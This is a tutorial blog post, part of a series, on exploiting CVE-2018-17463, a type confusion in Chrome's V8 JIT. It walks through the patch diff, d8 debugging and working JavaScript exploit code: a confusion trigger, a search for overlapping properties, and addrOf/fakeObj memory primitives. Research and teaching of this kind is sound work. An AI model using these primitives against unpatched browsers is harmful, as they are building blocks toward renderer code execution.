

[Research] Starting Chrome Exploitation with Type Confusion 101 ^-^☆ Part 3.(EN)
Hello! OUYA77 here. 2025 is already heading into the fourth quarter. Take care not to catch a seasonal cold, and I hope you spend the rest of the year without regrets 👍.
In Part 1 We looked at Chrome’s overall architecture, and in Part 2 I covered how a Type Confusion vulnerability arises in the V8 engine and why that can lead to a Relative R/W primitive.
If you haven’t read them
→ Starting Chrome Exploitation with Type Confusion 101 ^-^☆ Part 1.
→ Starting Chrome Exploitation with Type Confusion 101 ^-^☆ Part 2.
This time I’ll write a bit article and — to get a real whiff of pwnable goodness — I’ll only recap the Relative R/W from last time and then look at the actual exploit payload used in practice! We’ve got a lot to cover, so let’s hurry :)
0. Relative R/W Recap

For performance, V8 relies on assumptions that objects’ structures won’t change and therefore uses internal mechanisms like Hidden Classes (Maps) and ElementsKind. Based on that information, V8’s JIT compiler TurboFan produces high-performance native code. But JavaScript is extremely dynamic, and if an object’s structure or an array’s type changes at runtime, those assumptions can be violated. If V8 fails to properly deoptimize the previously optimized code, the engine may access memory using incorrect type information — and, as shown above, that can enable Relative R/W.
In this part we’ll take the journey from using a historical Chrome version to get a Relative Address R/W primitive via Type Confusion, refine that into an Arbitrary Address R/W, and proceed toward code execution. This post covers vulnerabilities from the era before the Heap Sandbox.
1. Environments Set-up
There’s a well-written write-up for the set-up, so I won’t go into a long explanation here — I’ll just add a few notes about the parts that mattered to me while doing it.
Set-up link→ https://gist.github.com/jhalon/5cbaab99dccadbf8e783921358020159
Make sure the Windows SDK versions match exactly. In depot_tools there’s a python3.bat; when you run where python in a cmd window, that python3.bat should be the one that appears. Create a symbolic link named python.bat that points to it, and put the depot_tools folder at the very top of your PATH environment variable. You’ll need this for the build!
Finally, the build expects SDK 10.0.26100.0, so check that version in the Visual Studio Installer and download it. (tools\dev\gm.py x64.debug has the version hardcoded, so it’s best to match that version when you build.)
c:\dev\source\v8>python3 tools\dev\gm.py x64.debug
# gn gen out\x64.debug
Done. Made 740 targets from 225 files in 6288ms
# autoninja -C out\x64.debug d8
offline mode
ninja: Entering directory `out\x64.debug'
exec_root=C:\dev\source\v8 dir=out\x64.debug
build finished
local:2609 remote:0 cache:0 cache-write:0(err:0) fallback:0 retry:0 skip:312
fs: ops: 41931(err:5273) / r:12710(err:0) 20.66GiB / w:122(err:0) 100.98MiB
resource/capa used(err) wait-avg | s m | serv-avg | s m |
localexec/32 2527(0) 4m03.72s |▂ ▂▂▇█▃| 10.08s | ▂▄▇█▂ |
14m13.39s Build Succeeded: 2609 steps - 3.06/s
Done! - V8 compilation finished successfully.If you see a pleasant Done! as shown above, the installation completed successfully! 🙌
The JavaScript engine V8 does not translate our code directly into machine code. Instead, it first compiles to an intermediate language called bytecode. That bytecode is executed by the Ignition interpreter, and hot/repeated code paths are optimized by the TurboFan compiler into faster machine code.
Below is the key portion of the bytecode produced when running a simple JavaScript snippet Array.from(String('12345')) in the d8 shell.

Array.from(String('12345'))
This code can be thought of in two main steps.
- Execute
String('12345')to produce a string object. - Execute
Array.from()to convert that string object into an array.
Inside V8, both steps are represented in the intermediate language called bytecode. Bytecode and assembly are both low-level representations of code, but they differ significantly. Assembly (and machine code) issues instructions to specific hardware (the CPU), so it’s architecture-dependent and must be compiled for a particular CPU to run.
By contrast, bytecode is an abstract set of instructions that is not tied to any specific hardware. It runs on top of a virtual “machine” — the Ignition interpreter — so JavaScript code can run immediately on different operating systems and CPU architectures without a separate compile step.
The D8 used here is V8’s developer/debug shell. With D8 you can run V8 without a browser and use debugging flags like --print-bytecode to inspect the engine’s internals. It’s an excellent tool for analyzing how V8 generates and runs bytecode. In this part we’ll use D8 thoroughly, step-by-step, to follow the exploit process.
The analysis post I referenced is: https://jhalon.github.io/chrome-browser-exploitation-3/
Now let’s roll back the git version to trigger the vulnerability in a real V8 build.
C:\dev\source\v8>git checkout 568979f4d891bafec875fab20f608ff9392f4f29
Updating files: 100% (15550/15550), done.
Previous HEAD position was b801900344f [gtest] Clean up single-arg `testing::Invoke()`s
HEAD is now at 568979f4d89 [parser] Fix memory accounting of explicitly cleared zonesTo build that version you’ll need to install the following additional items.
- MSVC v140 - VS 2015 C++ build tools (v14.00)
- MSVC v141 - VS 2017 C++ x64/x86 build tools (v14.16)
- Windows 10 SDK (10.0.17134.0)
- If you have a nearby version, you can copy the SDK folder and rename it to match. I installed
10.0.19041.0and renamed the folder to10.0.17134.0.
- If you have a nearby version, you can copy the SDK folder and rename it to match. I installed
C:\dev\source\v8>gn gen --ide=vs out\x64.debug
ERROR at //.gn:24:48: No value named "exec_script_whitelist" in scope "build_dotfile_settings"
exec_script_whitelist = build_dotfile_settings.exec_script_whitelist + []It won’t work right away! Because these are old versions, you must also align (sync) the build tools to those older toolchains. (2018 already… seven years ago — TMI, but I was 20 in 2018, hehe.)
Run gclient sync to sync the build toolchain. Since the build requires Python 2, make sure where python lists the Python 2 binary first in your PATH.
Also set the following environment variable:
set GYP_MSVS_OVERRIDE_PATH=C:\Program Files (x86)\Microsoft Visual Studio 14.0
After that, the build should succeed.
c:\dev\source\v8>gclient sync
...
Running hooks: 100% (30/30), doneWhen building Chrome you may see errors like the one below — the flags differ depending on whether the sandbox existed at that time.
c:\dev\source\v8>gn gen --ide=vs out\x64.debug
Generating Visual Studio projects took 96ms
Done. Made 129 targets from 74 files in 1597msI couldn’t get the ninja build to work here; if you can, proceed on Windows using the steps above. If not, you can build on Linux. In Part 4 I plan to cover a 2023 1-day exploit and I’ll do that hands-on on Windows!
2. CVE-2018-17463
CVE-2018-17463 is a Type Confusion vulnerability in Google Chrome Versions 69.0 and before that allows RCE from the renderer. Let’s analyze how this was possible, starting from the root cause.
2.1 Root Cause
The JIT compiler Turbofan performs optimizations by detecting and eliminating duplicate IR. However, if it operates incorrectly it can remove safety checks like type check, and that is where Type Confusion can occur.
Patch Diffing
If you look at Issue 888923, you’ll find a commit 52a9e67a477bdb67ca893c25c145ef5191976220 with the message:
[turbofan] Fix ObjectCreate’s side effect annotation.
Examining that change shows that in the JavaScript operation CreateObject the flag Operator::kNoWrite was changed to Operator::kNoProperties.
C:\dev\source\v8>git show 52a9e67a477bdb67ca893c25c145ef5191976220
commit 52a9e67a477bdb67ca893c25c145ef5191976220
Author: Jaroslav Sevcik <jarin@chromium.org>
Date: Wed Sep 26 13:23:47 2018 +0200
[turbofan] Fix ObjectCreate's side effect annotation.
Bug: chromium:888923
Change-Id: Ifb22cd9b34f53de3cf6e47cd92f3c0abeb10ac79
Reviewed-on: https://chromium-review.googlesource.com/1245763
Reviewed-by: Benedikt Meurer <bmeurer@chromium.org>
Commit-Queue: Jaroslav Sevcik <jarin@chromium.org>
Cr-Commit-Position: refs/heads/master@{#56236}
diff --git a/src/compiler/js-operator.cc b/src/compiler/js-operator.cc
index 94b018c987d..5ed3f74e075 100644
--- a/src/compiler/js-operator.cc
+++ b/src/compiler/js-operator.cc
@@ -622,7 +622,7 @@ CompareOperationHint CompareOperationHintOf(const Operator* op) {
V(CreateKeyValueArray, Operator::kEliminatable, 2, 1) \
V(CreatePromise, Operator::kEliminatable, 0, 1) \
V(CreateTypedArray, Operator::kNoProperties, 5, 1) \
- V(CreateObject, Operator::kNoWrite, 1, 1) \
+ V(CreateObject, Operator::kNoProperties, 1, 1) \
V(ObjectIsArray, Operator::kNoProperties, 1, 1) \
V(HasProperty, Operator::kNoProperties, 2, 1) \
V(HasInPrototypeChain, Operator::kNoProperties, 2, 1) \
diff --git a/test/mjsunit/compiler/regress-888923.js b/test/mjsunit/compiler/regress-888923.js
new file mode 100644
...NoWrite means “the object’s state will not be mutated” (i.e., no additional memory updates). During this operation there was a side effect that changed the properties’ layout (the Map), so the fix was to indicate “this object’s properties do not change” to prevent the optimizer from assuming the Map is unmodified.
Code Review
When you call Object.create(proto) in JavaScript, it creates a new object and directly sets that object’s [[Prototype]] to proto.
For example:
let animal = { type: "animal" };
let dog = Object.create(animal);
console.log(dog.type); // "animal"
Here dog does not have its own type property, but because its [[Prototype]] points to animal, dog.type resolves to "animal". Thus Object.create acts as a “glue” that starts a new prototype chain.
JavaScript objects and the prototype chain
- Every object in JavaScript internally has a hidden link called
[[Prototype]].- This link points to another object (the prototype), which may in turn have its own prototype.
- The linked sequence forms the prototype chain.
- When JS looks up a property or method:
- It checks the object itself.
- If not found, it follows
[[Prototype]]upwards.- It repeats until it reaches
null.

Let’s follow how the ObjectCreate function constructs a new map. The ObjectCreate function takes the prototype as an argument and calls GetObjectCreateMap.

GetObjectCreateMap’s job is to return the Object Create Map appropriate for the given prototype. This is where a side effect can occur.
JSObject::OptimizeAsPrototype: Converts the given object into a “prototype-optimized” state — i.e., transforms a regular object into a prototype object.Map::TransitionToPrototype: Transitions the map to match the new prototype — in other words, it changes the map’s linkage/structure.
This matters because the code is effectively doing “the newly created object becomes a prototype object, and the map associated with that object is changed at the same time.” Therefore, simply calling Object.create(proto) can cause the object to become a prototype object and its associated map layout to change.
Practice
Now let’s verify this in d8.
C:\dev\source\v8>out\x64.debug\d8 --allow-natives-syntax
V8 version 14.2.0 (candidate)
d8> let obj = {x:13};
undefined
d8> %DebugPrint(obj)
DebugPrint: 0x21700389515: [JS_OBJECT_TYPE]
- map: 0x02170006c2fd <Map[16](HOLEY_ELEMENTS)> [FastProperties]
- prototype: 0x0217000545fd <Object map = 0000021700053979>
- elements: 0x0217000007bd <FixedArray[0]> [HOLEY_ELEMENTS]
- properties: 0x0217000007bd <FixedArray[0]>
- All own properties (excluding elements): {
0x21700003601: [String] in ReadOnlySpace: #x: 13 (const data field 0, attrs: [WEC]) @ Any, location: in-object
}
0x2170006c2fd: [Map] in OldSpace
- map: 0x021700053419 <MetaMap (0x021700053469 <NativeContext[300]>)>
- type: JS_OBJECT_TYPE
- instance size: 16
- inobject properties: 1
- unused property fields: 0
- elements kind: HOLEY_ELEMENTS
- enum length: invalid
- stable_map
- back pointer: 0x02170006c2d5 <Map[16](HOLEY_ELEMENTS)>
- prototype_validity_cell: 0x021700000ac9 <Cell value= [cleared]>
- instance descriptors (own) #1: 0x021700389525 <DescriptorArray[1]>
- prototype: 0x0217000545fd <Object map = 0000021700053979>
- constructor: 0x021700053e91 <JSFunction Object (sfi = 0000021700351A15)>
- dependent code: 0x0217000007cd <Other heap object (WEAK_ARRAY_LIST_TYPE)>
- construction counter: 0
{x: 13}An object like the one above is created. Now call Object.create.
d8> Object.create(obj)
{}
d8> %DebugPrint(obj)
DebugPrint: 0x21700389515: [JS_OBJECT_TYPE]
- map: 0x02170006d05d <Map[16](HOLEY_ELEMENTS)> [DictionaryProperties]
- prototype: 0x0217000545fd <Object map = 0000021700053979>
- elements: 0x0217000007bd <FixedArray[0]> [HOLEY_ELEMENTS]
- properties: 0x02170038b3dd <NameDictionary[18]>
- All own properties (excluding elements): {
x: 13 (data, dict_index: 1, attrs: [WEC])
}
0x2170006d05d: [Map] in OldSpace
- map: 0x021700053419 <MetaMap (0x021700053469 <NativeContext[300]>)>
- type: JS_OBJECT_TYPE
- instance size: 16
- inobject properties: 1
- unused property fields: 0
- elements kind: HOLEY_ELEMENTS
- enum length: invalid
- dictionary_map
- may_have_interesting_properties
- prototype_map
- prototype info: 0x02170006d085 <PrototypeInfo>
- prototype_validity_cell: 0x021700000ac9 <Cell value= [cleared]>
- instance descriptors (own) #0: 0x0217000007e5 <DescriptorArray[0]>
- prototype: 0x0217000545fd <Object map = 0000021700053979>
- constructor: 0x021700053e91 <JSFunction Object (sfi = 0000021700351A15)>
- dependent code: 0x0217000007cd <Other heap object (WEAK_ARRAY_LIST_TYPE)>
- construction counter: 0
{x: 13}After the function call, you can see the map changed from FastProperties to DictionaryProperties. That means the NoWrite assumption is invalid. If there is no operation checking the map before and after the function call, that can lead to Type Confusion.
2.2 Proof of Concept
Type Confusion PoC
function vuln(obj) {
// Access Property a of obj, forcing a CheckMap operation
obj.a;
// Force a Map Transition via our side-effect
Object.create(obj)
// Trigger our type-confusion by accessing an out-of-bound property
return obj.b;
}
vuln({a:42, b:43}); // Warm-up code
vuln({a:42, b:43});
%OptimizeFunctionOnNextCall(vuln); // JIT Compile vuln
vuln({a:42, b:43}); // Trigger type-confusion - should not return 43!Let’s trigger Type Confusion using Object.create. Run d8 with the --allow-natives-syntax flag and enter the following:
d8> vuln({a:42, b:43})
43
d8> vuln({a:42, b:43})
43
d8> %OptimizeFunctionOnNextCall(vuln)
undefined
d8> vuln({a:42, b:43})
0In the optimized (compiled) code you can observe that the return value differs.
If you look at the IR graph,
C:\dev\v8\v8\out\x64.debug>d8 --allow-natives-syntax --trace-turbo poc.js
Concurrent recompilation has been disabled for tracing.
---------------------------------------------------
Begin compiling method vuln using Turbofan
---------------------------------------------------
Finished compiling method vuln using Turbofan
You can see that redundancy elimination removed the CheckMaps at node 46 on the left. At that point, when execution passes through JSCreateObject at node 28, a map transition can occur — and that is where Type Confusion can be triggered.
Five Steps to generate a Proof of Concept
After triggering the Type Confusion as described above, the exploit uses the side effect that occurs when accessing the object. The access phase can be divided into five steps.
- Create the prototype object: make a new object with in-object (inline) properties. This object will be used as the prototype for
Object.create. - Add an out-of-line property: add a property to the object’s property backing store. This property will be accessed after the Map transition.
- Force
CheckMapexecution: run theCheckMapoperation to encourage redundancy elimination. This causes laterCheckMapoperations to be removed. - Induce a Map transition: call
Object.createusing the object created earlier. This changes the object’s structure and transitions it to a new hidden class (Map). - Access the out-of-line property: finally, access the out-of-line property.
In-object properties (Inline properties)
Inline properties are stored directly in the object’s memory. Because no extra memory indirection is required when accessing them, they’re the fastest and most efficient storage. V8 uses the object’s Map (hidden class) to compute the precise offset of each inline property.
Out-of-line properties (Out-of-line / backing store properties)
When an object has more properties than fit in its inline property slots, the remaining properties are stored out-of-line in a separate backing store (property backing store). Accessing these properties requires an extra level of indirection compared to inline properties.
Speculation Guard
CheckMapis an operation that verifies an object’s hidden class matches the expected one; it serves as a speculation guard. The JIT compiler analyzes runtime patterns and speculates that a variable’s type will remain constant, then generates optimized code based on that assumption.CheckMapconfirms whether that speculation still holds.
Words alone may be unclear, so let’s inspect the code in the next section.
2.3 Exploiting a Type Confusion
Map Transition
In section 2.2 we used %OptimizeFunctionOnNextCall, which lets a developer force optimization timing. Instead, we’ll let V8 decide when to optimize by making the function hot through repeated calls. As we’ve seen, ordinary JavaScript goes through V8’s optimization pipeline: when V8 deems a function “hot,” it uses the JIT compilers (Maglev, TurboFan) to generate optimized native code for it.
function vuln(obj) {
// Access Property a of obj, forcing a CheckMap operation
obj.a;
// Force a Map Transition via our side-effect
Object.create(obj)
// Trigger our type-confusion by accessing an out-of-bound property
return obj.b;
}
for (let i = 0; i < 10000; i++) {
let obj = {a:42}; // Create object with in-line properties
obj.b = 43; // Store property out-of-line in backing store
if (i = 1) { %DebugPrint(obj); }
vuln(obj); // Trigger type-confusion
if (i = 9999) { %DebugPrint(obj); }
}Save the above code to a JSON file and run it with d8; you’ll get results like the screenshot below.

- The object’s Map (which holds its layout) changed from
FastPropertiestoDictionaryProperties. - (The bottom of the image is slightly cut off,) but you can also see that the property backing store transitioned from a
FixedArrayto aNameDictionary.
V8 stores an object’s excess properties (those that overflow inline slots) in a separate memory area called the property backing store. This backing store is implemented as a FixedArray called PropertyArray. Thus, the PropertyArray can be seen as a special-purpose FixedArray used to hold an object’s out-of-line properties.
FixedArray and NameDictionary are composed as follows:

FixedArray (PropertyArray) is a simple array structure with contiguous value slots. It stores an object’s out-of-line (those that exceed the inline slots) property values in order. A simplified layout looks like:
FixedArray:
[ header | slot0 | slot1 | slot2 | slot3 | ... ]NameDictionary stores (key, value, details) tuples in a hashtable/dictionary form. Because it must keep the property name, value, and property attributes (details) together, its structure is more complex. The per-process hash seed (randomness) is mixed in, so the placement of keys in the table changes on every run. In short, NameDictionary is a complicated hash-table structure whose property storage locations are randomized each execution, making them hard to predict. A simplified layout looks like:
NameDictionary:
[ header | ... | key0 | value0 | details0 | key1 | value1 | details1 |...]So — what side effects can happen if properties of different types get confused?
When properties that used to be stored sequentially in a FixedArray (0, 1, 2, …) are converted to a NameDictionary, they end up scattered at completely different memory offsets. The JIT-compiled code, however, was generated assuming the FixedArray offsets. If execution continues using those fixed FixedArray offsets while the backing store is actually a NameDictionary, you end up accessing entirely different fields — sometimes those fields will accidentally line up so that a different property appears to be at the same offset. By triggering this situation you can gain an exploitable primitive.
As shown above, hot code produced by repeating a pattern causes the JIT compiler to assume a fixed map and generate native code that accesses properties at fixed offsets. For example, obj.p10 may be compiled to read from base + offset + 10*8. If that compiled code remains and you trigger a map transition at runtime, the object’s map can change from FastProperties → DictionaryProperties, swapping the backing store from a FixedArray to a NameDictionary. But the JIT code doesn’t know about the change and keeps reading at the fixed FixedArray offsets. Because the two layouts place fields differently, the same read will end up reading some other field in memory.
Finding Overlapping Properties
// Create object with one inline and 31 out-of-line properties
function makeObj() {
let obj = {inline: 1234};
for (let i = 1; i < 32; i++) {
Object.defineProperty(obj, 'p' + i, {
writable: true,
value: -i
});
}
return obj;
}First, this creates an object with one inline property (inline) and 31 out-of-line properties (p1 ~ p31). We plant negative values in each out-of-line property so that, when we later dump memory, we can clearly identify only the values we inserted (they won’t be confused with small positive dictionary-internal values). The single inline access like obj.inline exists so the JIT will generate a CheckMap and form the assumption “this object has this map.” In other words, the obj.inline access causes a map-check inside vuln(). After we cause the map transition, the JIT will keep using the old assumption and Type Confusion occurs.
Let’s look at the full PoC that finds overlapping property pairs.
// Create object with one inline and 31 out-of-line properties
function makeObj() {
let obj = {inline: 1234};
for (let i = 1; i < 32; i++) {
Object.defineProperty(obj, 'p' + i, {
writable: true,
value: -i
});
}
return obj;
}
// Find a pair of properties where p1 is stored at the same offset
// in the FixedArray as p2 is in the NameDictionary
function findOverlappingProperties() {
// Create an array of all 32 property names such as p1..p32
let pNames = [];
for (let i = 0; i < 32; i++) {
pNames[i] = 'p' + i;
}
// Create eval of our vuln function that will generate code during runtime
eval(`
function vuln(obj) {
// Access Property inline of obj, forcing a CheckMap operation
obj.inline;
// Force a Map Transition via our side-effect
this.Object.create(obj);
// Trigger our type-confusion by accessing out-of-bound properties
${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
return [${pNames.join(', ')}];
}
`)
// JIT code to trigger vuln
for (let i = 0; i < 10000; i++) {
let res = vuln(makeObj());
// Print FixedArray when i=1 and Dictionary when i=9999
if (i == 1 || i == 9999) {
print(res);
}
}
}
print("[+] Finding Overlapping Properties");
findOverlappingProperties();The vulnerable vuln() function dynamically generates code at runtime (using eval and template literals) that reads p1~p31 and returns them as an array. This avoids manually writing many read statements and forces the JIT to produce code that reads many properties at once; repeated execution triggers profiling and then optimization into code that uses fixed offsets.
The search strategy is as follows: plant many candidate properties, run the function many times to make it hot so the JIT compiles it, then deliberately force a map transition and compare the read results before and after the transition. Indices where the results differ identify candidate overlapping locations.

Note: In
../v8(a recent checkout) you can verify that the bug is no longer reproducible.
By running the same object shape thousands of times to drive JIT compilation, then intentionally causing the map transition and comparing reads in the FixedArray vs NameDictionary states, you can find where the negative values moved — those indices are candidates. From those candidates, discard trivial cases where pX overlaps with itself; keep only pairs where different properties collide (pA ↔ pB) and verify they match. The code above is a full PoC that finds overlapping property pairs.
// Function that creates an object with one in-line and 32 out-of-line properties
function makeObj() {
let obj = {inline: 1234};
for (let i = 1; i < 32; i++) {
Object.defineProperty(obj, 'p' + i, {
writable: true,
value: -i
});
}
return obj;
}
// Function that finds a pair of properties where p1 is stored at the same offset
// in the FixedArray as p2 in the NameDictionary
let p1, p2;
function findOverlappingProperties() {
// Create an array of all 32 property names such as p1..p32
let pNames = [];
for (let i = 0; i < 32; i++) {
pNames[i] = 'p' + i;
}
// Create eval of our vuln function that will generate code during runtime
eval(`
function vuln(obj) {
// Access Property inline of obj, forcing a CheckMap operation
obj.inline;
// Force a Map Transition via our side-effect
this.Object.create(obj);
// Trigger our type-confusion by accessing out-of-bound properties
${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
return [${pNames.join(', ')}];
}
`)
// JIT code to trigger vuln
for (let i = 0; i < 10000; i++) {
// Create Object and pass it to Vuln function
let res = vuln(makeObj());
// Look for overlapping properties in results
for (let i = 1; i < res.length; i++) {
// If i is not the same value, and res[i] is between -32 and 0, it overlaps
if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
[p1, p2] = [i, -res[i]];
return;
}
}
}
throw "[!] Failed to find overlapping properties";
}
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);
As mentioned, NameDictionary’s property placement is randomized at runtime, so you must discover pairs dynamically like this. Now that we have such a pair, let’s see how to use it to get Read/Write primitives!
The addrOf Read Primitive
Create an inline object that stores a double and then create another object that will be stored in the backing store, then trigger the Type Confusion. The result is that an object pointer gets interpreted as a double.
function addrOf() {
// 1. Dynamically generate vuln function (bypass Map check)
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
// We expect p1 to be a Double, but actually p2 (an Object pointer) is loaded
return obj.p${p1}.x;
}
`);
let obj = {z: 1234}; // the target object whose address we want
let pValues = [];
pValues[p1] = {x: 13.37}; // Double (expected type)
pValues[p2] = {y: obj}; // Object (actually loaded value)
// 2. Drive JIT optimization and induce type confusion
for (let i = 0; i < 10000; i++) {
let res = vuln(makeObj(pValues));
// If the return value is not 13.37 (i.e., an address leaked), success
if (res != 13.37) {
return res.toBigInt() - 1n; // return address and remove tag
}
}
throw "[!] AddrOf Primitive Failed"
}
Below is the Read Primitive code that includes the function above (if you want the pointer untagging logic, replace with the function above).
// Function that creates an object with one in-line and 32 out-of-line properties
function makeObj(pValues) {
let obj = {inline: 1234};
for (let i = 0; i < 32; i++) {
Object.defineProperty(obj, 'p' + i, {
writable: true,
value: pValues[i]
});
}
return obj;
}
// Function that finds a pair of properties where p1 is stored at the same offset
// in the FixedArray as p2 in the NameDictionary
let p1, p2;
function findOverlappingProperties() {
// Create an array of all 32 property names such as p1..p32
let pNames = [];
for (let i = 0; i < 32; i++) {
pNames[i] = 'p' + i;
}
// Create eval of our vuln function that will generate code during runtime
eval(`
function vuln(obj) {
// Access Property inline of obj, forcing a CheckMap operation
obj.inline;
// Force a Map Transition via our side-effect
this.Object.create(obj);
// Trigger our type-confusion by accessing out-of-bound properties
${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
return [${pNames.join(', ')}];
}
`)
// Create an array of negative values from -1 to -32 to be used
// for out makeObj function
let pValues = [];
for (let i = 1; i < 32; i++) {
pValues[i] = -i;
}
// JIT code to trigger vuln
for (let i = 0; i < 10000; i++) {
// Create Object and pass it to Vuln function
let res = vuln(makeObj(pValues));
// Look for overlapping properties in results
for (let i = 1; i < res.length; i++) {
// If i is not the same value, and res[i] is between -32 and 0, it overlaps
if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
[p1, p2] = [i, -res[i]];
return;
}
}
}
throw "[!] Failed to find overlapping properties";
}
function addrOf() {
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
// Trigger our type-confusion by accessing an out-of-bound property
// This will load p1 from our object thinking it's a Double, but instead
// due to overlap, it will load p2 which is an Object
return obj.p${p1}.x;
}
`);
let obj = {z: 1234};
let pValues = [];
pValues[p1] = {x: 13.37};
pValues[p2] = {y: obj};
for (let i = 0; i < 10000; i++) {
let res = vuln(makeObj(pValues));
if (res != 13.37) {
%DebugPrint(obj);
return res;
}
}
throw "[!] AddrOf Primitive Failed"
}
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);
let x = addrOf();
print("[+] Leaking Object Address...");
print(`[+] Object Address: ${x}`);When you run the code in d8, you get a result like this:

The output labeled Object Address is printed in double format because it’s interpreted as a double. So you need to convert that double to an address — the conversion shown above will give you the address!
The fakeObj Write Primitive
You can get a write primitive by doing the reverse of the read primitive — no new vulnerability is required. That’s one of the strengths of Type Confusion: if a pointer is being interpreted as a double (and reading the pointer leaked an address), then writing to a double slot (via the same confusion) can instead write into the pointer’s target.
function fakeObj() {
eval(`
function vuln(obj) {
obj.inline;
this.Object.create(obj);
let orig = obj.p${p1}.x;
// Overwrite property x of p1, but due to type confusion
// we overwrite property y of p2
obj.p${p1}.x = 0x41414141n;
return orig;
}
`);
let obj = {z: 1234};
let pValues = [];
pValues[p1] = {x: 13.37};
pValues[p2] = {y: obj};
for (let i = 0; i < 10000; i++) {
let res = vuln(makeObj(pValues));
if (res != 13.37) {
return res;
}
}
}If you replace the let x = addrOf(); line in the Read primitive code with a call to fakeObj() and run it in d8, you’ll get results like below. As you can see, the obj pointer’s address is overwritten with 0x41414141. Isn’t Type Confusion a delightfully simple way to get primitives? 😄

Now that we have a read primitive for addresses and a write primitive that can overwrite an object pointer, the next step would be to refine these into full arbitrary memory read/write primitives (AAR/AAW) for exploitation. I intended to cover that here but ran out of space and want to produce a higher-quality write-up, so I’ll move that content to the next part.
In the next part I’ll explain how Read/Write primitives in the Chrome renderer lead to RCE, and how renderer RCE changed after the Heap Sandbox was introduced. I’ll be back soon — see you next time! :)
Reference
https://jhalon.github.io/chrome-browser-exploitation-1/
https://jhalon.github.io/chrome-browser-exploitation-2/
https://jhalon.github.io/chrome-browser-exploitation-3/
https://ssd-disclosure.com/ssd-advisory-chrome-type-confusion-in-jscreateobject-operation-to-rce/

본 글은 CC BY-SA 4.0 라이선스로 배포됩니다. 공유 또는 변경 시 반드시 출처를 남겨주시기 바랍니다.